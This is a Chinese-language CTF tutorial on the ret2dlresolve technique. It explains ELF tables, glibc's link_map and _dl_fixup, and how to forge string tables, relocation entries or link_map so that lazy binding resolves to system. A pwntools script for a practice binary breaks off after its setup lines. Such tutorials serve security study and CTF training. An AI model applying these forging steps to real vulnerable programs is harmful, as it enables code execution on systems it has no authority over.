






# ret2dlresolve
ret2dlresolve攻击的目标是ld，具体函数是_dl_runtime_resolve(实际干活的是_dl_fixup)，有两个参数，一个是linkmap结构体的指针，另一个是待定位函数在rel表的偏移，因此我们可以伪造第一个参数，也可以伪造第二个参数，视具体情况而定。

下面是一些重要的相关数据结构
### 符号表（.symtab）

```
/* Symbol table entry.  */  
  
typedef struct  
{  
  Elf32_Word	st_name;		/* Symbol name (string tbl index) */  
  Elf32_Addr	st_value;		/* Symbol value */  
  Elf32_Word	st_size;		/* Symbol size */  
  unsigned char	st_info;		/* Symbol type and binding */  
  unsigned char	st_other;		/* Symbol visibility */  
  Elf32_Section	st_shndx;		/* Section index */  
} Elf32_Sym;
```
  
### 重定位表（.rel.text/.rel.data）

``` 
/* Relocation table entry without addend (in section of type SHT_REL).  */  
  
typedef struct  
{  
  Elf32_Addr	r_offset;		/* Address */  
  Elf32_Word	r_info;			/* Relocation type and symbol index */  
} Elf32_Rel;
```
 
### 字符串表（.strtab）
 
ELF 文件中用到了很多字符串，比如段名、变量名等。因为字符串的长度往往是不定的，所以用固定的结构来表示它比较困难。一种很常见的做法是把字符串集中起来存放到一个表，然后使用字符串在表中的偏移来引用字符串。
 
通过这种方法，在ELF文件中引用字符串只须给出一个数字下标即可，不用考虑字符串长度的问题。一般字符串表在ELF文件中也以段的形式保存，常见的段名为“.strtab”或“.shstrtab”。这两个字符串表分别为字符串表（String Table）和段表字符串表（Section Header String Table）。顾名思义，字符串表用来保存普通的字符串，比如符号的名字；段表字符串表用来保存段表中用到的字符串，最常见的就是段名（sh_name ）。
 
注意，在字符串表中的每个字符串的开头和结尾都有一个 \x00 填充。
例如：
```
fake_dynstr = '\x00libc.so.6\x00_IO_stdin_used\x00stdin\x00strlen\x00read\x00stdout\x00setbuf\x00__libc_start_main\x00system\x00'
```

### Dyn结构体：


Dyn 结构体用于描述动态链接时需要使用到的信息，其成员含义如下：
  
d_tag 表示标记值，指明了该结构体的具体类型。比如，DT_NEEDED 表示需要链接的库名，DT_PLTRELSZ 表示 PLT 重定位表的大小等。 
 
d_un 是一个联合体，用于存储不同类型的信息。具体含义取决于 d_tag 的值。如果 d_tag 的值是一个整数类型，则用 d_val 存储它的值；如果 d_tag 的值是一个指针类型，则用 d_ptr 存储它的值。 

了解了Dyn结构体，就可以理解下面的代码，D_PTR就是取出map对应项中的Dyn结构体，然后根据dl_relocate_ld的结果来判断是否加上map->l_addr，这样就计算出来各个表的位置。


它们之间的组织关系是：




然后来考察动态链接的相关函数，dl_runtime_resolve负责保存函数调用的一些上下文信息，真正干活的是_dl_fixup.



以下是几个比较关键的定义，可以帮助阅读代码。
```
#define D_PTR(map, i) \
  ((map)->i->d_un.d_ptr + (dl_relocate_ld (map) ? 0 : (map)->l_addr))

static inline bool
dl_relocate_ld (const struct link_map *l)
{
  /* Don't relocate dynamic section if it is readonly  */
  return !(l->l_ld_readonly || DL_RO_DYN_SECTION);
}

static inline uintptr_t
reloc_offset (uintptr_t plt0, uintptr_t pltn)
{
  return pltn;
}
```
linkmap的结构，这个结构非常庞大，但我们主要关注前面的部分，l_addr和l_info最为重要：
```
struct link_map
  {
    /* These first few members are part of the protocol with the debugger.
       This is the same format used in SVR4.  */

    ElfW(Addr) l_addr;		/* Difference between the address in the ELF
				   file and the addresses in memory.  */
    char *l_name;		/* Absolute file name object was found in.  */
    ElfW(Dyn) *l_ld;		/* Dynamic section of the shared object.  */
    struct link_map *l_next, *l_prev; /* Chain of loaded objects.  */

    /* All following members are internal to the dynamic linker.
       They may change without notice.  */

    /* This is an element which is only ever different from a pointer to
       the very same copy of this type for ld.so when it is used in more
       than one namespace.  */
    struct link_map *l_real;

    /* Number of the namespace this link map belongs to.  */
    Lmid_t l_ns;

    struct libname_list *l_libname;
    /* Indexed pointers to dynamic section.
       [0,DT_NUM) are indexed by the processor-independent tags.
       [DT_NUM,DT_NUM+DT_THISPROCNUM) are indexed by the tag minus DT_LOPROC.
       [DT_NUM+DT_THISPROCNUM,DT_NUM+DT_THISPROCNUM+DT_VERSIONTAGNUM) are
       indexed by DT_VERSIONTAGIDX(tagvalue).
       [DT_NUM+DT_THISPROCNUM+DT_VERSIONTAGNUM,
	DT_NUM+DT_THISPROCNUM+DT_VERSIONTAGNUM+DT_EXTRANUM) are indexed by
       DT_EXTRATAGIDX(tagvalue).
       [DT_NUM+DT_THISPROCNUM+DT_VERSIONTAGNUM+DT_EXTRANUM,
	DT_NUM+DT_THISPROCNUM+DT_VERSIONTAGNUM+DT_EXTRANUM+DT_VALNUM) are
       indexed by DT_VALTAGIDX(tagvalue) and
       [DT_NUM+DT_THISPROCNUM+DT_VERSIONTAGNUM+DT_EXTRANUM+DT_VALNUM,
	DT_NUM+DT_THISPROCNUM+DT_VERSIONTAGNUM+DT_EXTRANUM+DT_VALNUM+DT_ADDRNUM)
       are indexed by DT_ADDRTAGIDX(tagvalue), see <elf.h>.  */

    ElfW(Dyn) *l_info[DT_NUM + DT_THISPROCNUM + DT_VERSIONTAGNUM
		      + DT_EXTRANUM + DT_VALNUM + DT_ADDRNUM];
    const ElfW(Phdr) *l_phdr;	/* Pointer to program header table in core.  */
    ElfW(Addr) l_entry;		/* Entry point location.  */
    ElfW(Half) l_phnum;		/* Number of program header entries.  */
    ElfW(Half) l_ldnum;		/* Number of dynamic segment entries.  */

    /* Array of DT_NEEDED dependencies and their dependencies, in
       dependency order for symbol lookup (with and without
       duplicates).  There is no entry before the dependencies have
       been loaded.  */
    struct r_scope_elem l_searchlist;

    /* We need a special searchlist to process objects marked with
       DT_SYMBOLIC.  */
    struct r_scope_elem l_symbolic_searchlist;

    /* Dependent object that first caused this object to be loaded.  */
    struct link_map *l_loader;

    /* Array with version names.  */
    struct r_found_version *l_versions;
    unsigned int l_nversions;

    /* Symbol hash table.  */
    Elf_Symndx l_nbuckets;
    Elf32_Word l_gnu_bitmask_idxbits;
    Elf32_Word l_gnu_shift;
    const ElfW(Addr) *l_gnu_bitmask;
    union
    {
      const Elf32_Word *l_gnu_buckets;
      const Elf_Symndx *l_chain;
    };
    union
    {
      const Elf32_Word *l_gnu_chain_zero;
      const Elf_Symndx *l_buckets;
    };

    unsigned int l_direct_opencount; /* Reference count for dlopen/dlclose.  */
    enum			/* Where this object came from.  */
      {
	lt_executable,		/* The main executable program.  */
	lt_library,		/* Library needed by main executable.  */
	lt_loaded		/* Extra run-time loaded shared object.  */
      } l_type:2;
    unsigned int l_dt_relr_ref:1; /* Nonzero if GLIBC_ABI_DT_RELR is
				     referenced.  */
    unsigned int l_relocated:1;	/* Nonzero if object's relocations done.  */
    unsigned int l_init_called:1; /* Nonzero if DT_INIT function called.  */
    unsigned int l_global:1;	/* Nonzero if object in _dl_global_scope.  */
    unsigned int l_reserved:2;	/* Reserved for internal use.  */
    unsigned int l_main_map:1;  /* Nonzero for the map of the main program.  */
    unsigned int l_visited:1;   /* Used internally for map dependency
				   graph traversal.  */
    unsigned int l_map_used:1;  /* These two bits are used during traversal */
    unsigned int l_map_done:1;  /* of maps in _dl_close_worker. */
    unsigned int l_phdr_allocated:1; /* Nonzero if the data structure pointed
					to by `l_phdr' is allocated.  */
    unsigned int l_soname_added:1; /* Nonzero if the SONAME is for sure in
				      the l_libname list.  */
    unsigned int l_faked:1;	/* Nonzero if this is a faked descriptor
				   without associated file.  */
    unsigned int l_need_tls_init:1; /* Nonzero if GL(dl_init_static_tls)
				       should be called on this link map
				       when relocation finishes.  */
    unsigned int l_auditing:1;	/* Nonzero if the DSO is used in auditing.  */
    unsigned int l_audit_any_plt:1; /* Nonzero if at least one audit module
				       is interested in the PLT interception.*/
    unsigned int l_removed:1;	/* Nozero if the object cannot be used anymore
				   since it is removed.  */
    unsigned int l_contiguous:1; /* Nonzero if inter-segment holes are
				    mprotected or if no holes are present at
				    all.  */
    unsigned int l_free_initfini:1; /* Nonzero if l_initfini can be
				       freed, ie. not allocated with
				       the dummy malloc in ld.so.  */
    unsigned int l_ld_readonly:1; /* Nonzero if dynamic section is readonly.  */
    unsigned int l_find_object_processed:1; /* Zero if _dl_find_object_update
					       needs to process this
					       lt_library map.  */
    unsigned int l_tls_in_slotinfo:1; /* TLS slotinfo updated in dlopen.  */

    /* NODELETE status of the map.  Only valid for maps of type
       lt_loaded.  Lazy binding sets l_nodelete_active directly,
       potentially from signal handlers.  Initial loading of an
       DF_1_NODELETE object set l_nodelete_pending.  Relocation may
       set l_nodelete_pending as well.  l_nodelete_pending maps are
       promoted to l_nodelete_active status in the final stages of
       dlopen, prior to calling ELF constructors.  dlclose only
       refuses to unload l_nodelete_active maps, the pending status is
       ignored.  */
    bool l_nodelete_active;
    bool l_nodelete_pending;

#include <link_map.h>

    /* Collected information about own RPATH directories.  */
    struct r_search_path_struct l_rpath_dirs;

    /* Collected results of relocation while profiling.  */
    struct reloc_result
    {
      DL_FIXUP_VALUE_TYPE addr;
      struct link_map *bound;
      unsigned int boundndx;
      uint32_t enterexit;
      unsigned int flags;
      /* CONCURRENCY NOTE: This is used to guard the concurrent initialization
	 of the relocation result across multiple threads.  See the more
	 detailed notes in elf/dl-runtime.c.  */
      unsigned int init;
    } *l_reloc_result;

    /* Pointer to the version information if available.  */
    ElfW(Versym) *l_versyms;

    /* String specifying the path where this object was found.  */
    const char *l_origin;

    /* Start and finish of memory map for this object.  l_map_start
       need not be the same as l_addr.  */
    ElfW(Addr) l_map_start, l_map_end;

    /* Default array for 'l_scope'.  */
    struct r_scope_elem *l_scope_mem[4];
    /* Size of array allocated for 'l_scope'.  */
    size_t l_scope_max;
    /* This is an array defining the lookup scope for this link map.
       There are initially at most three different scope lists.  */
    struct r_scope_elem **l_scope;

    /* A similar array, this time only with the local scope.  This is
       used occasionally.  */
    struct r_scope_elem *l_local_scope[2];

    /* This information is kept to check for sure whether a shared
       object is the same as one already loaded.  */
    struct r_file_id l_file_id;

    /* Collected information about own RUNPATH directories.  */
    struct r_search_path_struct l_runpath_dirs;

    /* List of object in order of the init and fini calls.  */
    struct link_map **l_initfini;

    /* List of the dependencies introduced through symbol binding.  */
    struct link_map_reldeps
      {
	unsigned int act;
	struct link_map *list[];
      } *l_reldeps;
    unsigned int l_reldepsmax;

    /* Nonzero if the DSO is used.  */
    unsigned int l_used;

    /* Various flag words.  */
    ElfW(Word) l_feature_1;
    ElfW(Word) l_flags_1;
    ElfW(Word) l_flags;

    /* Temporarily used in `dl_close'.  */
    int l_idx;

    struct link_map_machine l_mach;

    struct
    {
      const ElfW(Sym) *sym;
      int type_class;
      struct link_map *value;
      const ElfW(Sym) *ret;
    } l_lookup_cache;

    /* Thread-local storage related info.  */

    /* Start of the initialization image.  */
    void *l_tls_initimage;
    /* Size of the initialization image.  */
    size_t l_tls_initimage_size;
    /* Size of the TLS block.  */
    size_t l_tls_blocksize;
    /* Alignment requirement of the TLS block.  */
    size_t l_tls_align;
    /* Offset of first byte module alignment.  */
    size_t l_tls_firstbyte_offset;
#ifndef NO_TLS_OFFSET
# define NO_TLS_OFFSET	0
#endif
#ifndef FORCED_DYNAMIC_TLS_OFFSET
# if NO_TLS_OFFSET == 0
#  define FORCED_DYNAMIC_TLS_OFFSET -1
# elif NO_TLS_OFFSET == -1
#  define FORCED_DYNAMIC_TLS_OFFSET -2
# else
#  error "FORCED_DYNAMIC_TLS_OFFSET is not defined"
# endif
#endif
    /* For objects present at startup time: offset in the static TLS block.  */
    ptrdiff_t l_tls_offset;
    /* Index of the module in the dtv array.  */
    size_t l_tls_modid;

    /* Number of thread_local objects constructed by this DSO.  This is
       atomically accessed and modified and is not always protected by the load
       lock.  See also: CONCURRENCY NOTES in cxa_thread_atexit_impl.c.  */
    size_t l_tls_dtor_count;

    /* Information used to change permission after the relocations are
       done.  */
    ElfW(Addr) l_relro_addr;
    size_t l_relro_size;

    unsigned long long int l_serial;
  };
```
然后分析最关键的函数_dl_fixup，它是先通过D_PTR这个宏获得了各个表的基址，然后依赖reloc_arg这个参数，首先定位重定位表中当前待定位函数的表项，然后从中获得其在符号表中的位置，在获得字符串表中的位置，然后拿到函数的名字，最后进行_dl_lookup_symbol_x解析函数的地址。也有另外一个分支else，在__builtin_expect (ELFW(ST_VISIBILITY) (sym->st_other), 0) == 0这个判断不成立时，我们认为已经找到了这个符号的位置，所以直接用l_addr+st_value计算出实际位置。
```
_dl_fixup (
# ifdef ELF_MACHINE_RUNTIME_FIXUP_ARGS
	   ELF_MACHINE_RUNTIME_FIXUP_ARGS,
# endif
	   struct link_map *l, ElfW(Word) reloc_arg)
{
  const ElfW(Sym) *const symtab
    = (const void *) D_PTR (l, l_info[DT_SYMTAB]);
  const char *strtab = (const void *) D_PTR (l, l_info[DT_STRTAB]);

  const uintptr_t pltgot = (uintptr_t) D_PTR (l, l_info[DT_PLTGOT]);
  # define reloc_offset reloc_arg * sizeof (PLTREL)
  # define PLTREL  ElfW(Rel)

  const PLTREL *const reloc
    = (const void *) (D_PTR (l, l_info[DT_JMPREL])
		      + reloc_offset (pltgot, reloc_arg));
  const ElfW(Sym) *sym = &symtab[ELFW(R_SYM) (reloc->r_info)];
  const ElfW(Sym) *refsym = sym;
  void *const rel_addr = (void *)(l->l_addr + reloc->r_offset);
  lookup_t result;
  DL_FIXUP_VALUE_TYPE value;

  /* Sanity check that we're really looking at a PLT relocation.  */
  assert (ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT);

   /* Look up the target symbol.  If the normal lookup rules are not
      used don't look in the global scope.  */
  if (__builtin_expect (ELFW(ST_VISIBILITY) (sym->st_other), 0) == 0)
    {
      const struct r_found_version *version = NULL;

      if (l->l_info[VERSYMIDX (DT_VERSYM)] != NULL)
	{
	  const ElfW(Half) *vernum =
	    (const void *) D_PTR (l, l_info[VERSYMIDX (DT_VERSYM)]);
	  ElfW(Half) ndx = vernum[ELFW(R_SYM) (reloc->r_info)] & 0x7fff;
	  version = &l->l_versions[ndx];
	  if (version->hash == 0)
	    version = NULL;
	}

      /* We need to keep the scope around so do some locking.  This is
	 not necessary for objects which cannot be unloaded or when
	 we are not using any threads (yet).  */
      int flags = DL_LOOKUP_ADD_DEPENDENCY;
      if (!RTLD_SINGLE_THREAD_P)
	{
	  THREAD_GSCOPE_SET_FLAG ();
	  flags |= DL_LOOKUP_GSCOPE_LOCK;
	}

#ifdef RTLD_ENABLE_FOREIGN_CALL
      RTLD_ENABLE_FOREIGN_CALL;
#endif

      result = _dl_lookup_symbol_x (strtab + sym->st_name, l, &sym, l->l_scope,
				    version, ELF_RTYPE_CLASS_PLT, flags, NULL);

      /* We are done with the global scope.  */
      if (!RTLD_SINGLE_THREAD_P)
	THREAD_GSCOPE_RESET_FLAG ();

#ifdef RTLD_FINALIZE_FOREIGN_CALL
      RTLD_FINALIZE_FOREIGN_CALL;
#endif

      /* Currently result contains the base load address (or link map)
	 of the object that defines sym.  Now add in the symbol
	 offset.  */
      value = DL_FIXUP_MAKE_VALUE (result,
				   SYMBOL_ADDRESS (result, sym, false));
    }
  else
    {
      /* We already found the symbol.  The module (and therefore its load
	 address) is also known.  */
      value = DL_FIXUP_MAKE_VALUE (l, SYMBOL_ADDRESS (l, sym, true));
      result = l;
    }

  /* And now perhaps the relocation addend.  */
  value = elf_machine_plt_value (l, reloc, value);

  if (sym != NULL
      && __builtin_expect (ELFW(ST_TYPE) (sym->st_info) == STT_GNU_IFUNC, 0))
    value = elf_ifunc_invoke (DL_FIXUP_VALUE_ADDR (value));

#ifdef SHARED
  /* Auditing checkpoint: we have a new binding.  Provide the auditing
     libraries the possibility to change the value and tell us whether further
     auditing is wanted.
     The l_reloc_result is only allocated if there is an audit module which
     provides a la_symbind.  */
  if (l->l_reloc_result != NULL)
    {
      /* This is the address in the array where we store the result of previous
	 relocations.  */
      struct reloc_result *reloc_result
	= &l->l_reloc_result[reloc_index (pltgot, reloc_arg, sizeof (PLTREL))];
      unsigned int init = atomic_load_acquire (&reloc_result->init);
      if (init == 0)
	{
	  _dl_audit_symbind (l, reloc_result, reloc, sym, &value, result, true);

	  /* Store the result for later runs.  */
	  if (__glibc_likely (! GLRO(dl_bind_not)))
	    {
	      reloc_result->addr = value;
	      /* Guarantee all previous writes complete before init is
		 updated.  See CONCURRENCY NOTES below.  */
	      atomic_store_release (&reloc_result->init, 1);
	    }
	}
      else
	value = reloc_result->addr;
    }
#endif

  /* Finally, fix up the plt itself.  */
  if (__glibc_unlikely (GLRO(dl_bind_not)))
    return value;

  return elf_machine_fixup_plt (l, result, refsym, sym, reloc, rel_addr, value);
}

```
通过对上面机制的理解，我们可以知道以下利用手法（参考https://xz.aliyun.com/news/17612，里面有exp模板可以使用学习）
### 32位NO RELRO
.dynamic 可写,ret2dl-resolve 会从 .dynamic 里面拿 .dynstr 字符串表的指针，然后加上 offset 取得函数名并且在动态链接库中搜索这个函数名，然后调用。而假如说我们能够改写这个指针到一块我们能够操纵的内存空间，当 resolve 的时候，就能 resolve 成我们所指定的任意库函数。
 

### 32位Partial RELRO
由于 _dl_runtime_resolve 函数各种按下标取值的操作都没有进行越界检查，因此如果 .dynamic 不可写就操纵 _dl_runtime_resolve 函数的第二个参数，使其访问到可控的内存，然后在该内存中伪造 .rel.plt ，进一步可以伪造 .dynsym 和 .dynstr ，最终调用目标函数。


### 64位NO RELRO
和32位相似，也是直接修改.dynamic段中指向strtab的指针指向我们伪造的strtab。


### 64位Partial RELRO
这里需要伪造link_map，走else分支来进行攻击。
64 位下伪造时（.bss 段离 .dynsym 太远） reloc->r_info 也很大，最后使得访问 ElfW(Half) ndx = vernum[ELFW(R_SYM) (reloc->r_info)] & 0x7fff; 时程序访存出错，导致程序崩溃。因此我们退而求其次选择 ELFW(ST_VISIBILITY) (sym->st_other) 不为 0 时时的程序执行流程，此时计算的目标函数地址为 l->l_addr + sym->st_value 。
 
虽然这种方法无法在不知道 libc 版本的情况下完成利用，但是可以在不泄露 libc 基址的情况下完成利用。
 
为了实现 64 位的 ret2dlresolve ，我们需要作如下构造：
  
resolve 函数传入的第二个参数为 0 ，从而从 Elf64_Rel 数组中找到第一个 Elf64_Rel 。 
 
为了避免更新 got 表时内存访问错误，Elf64_Rel 的 r_offset 加上 link_map->l_addr 需要指向可读写内存。 
 
Elf64_Rel 的 r_info 的低 32 比特设置为 ELF_MACHINE_JMP_SLOT 即 7 。 
 
为了避免下面这行代码访存错误，需要让 l_info[5] 指向可读写内存。 
  
const char *strtab = (const void *) D_PTR (l, l_info[DT_STRTAB]);
 
Elf64_Rel 的 r_info 的高 32 比特设置为 0 这样找的就是 Elf64_Sym 数组中的第一个 Elf64_Sym 。 
 
link_map->l_info[6]->d_un.dptr 指向 puts@got - 8 这样就伪造出 Elf64_Sym 的 st_value 为 puts 函数地址，同时 st_order 也大概率为非 0 。 
 
link_map 的 l_addr 设置为 &system - &puts ，这样 l->l_addr + sym->st_value 结果就是 system 函数地址。 


### CTF HUB上的例题
原来的l_addr + st_value得到read的地址，应该本来l_addr应该是0，但如果将l_addr设为read和system的偏移，则定位就会定位到system，这样我们就无需泄露libc基址便可完成利用。

```
from pwn import *
context(arch="amd64",os = "linux", log_level = "debug")
io = process("./pwn")
gdb.attach(io)
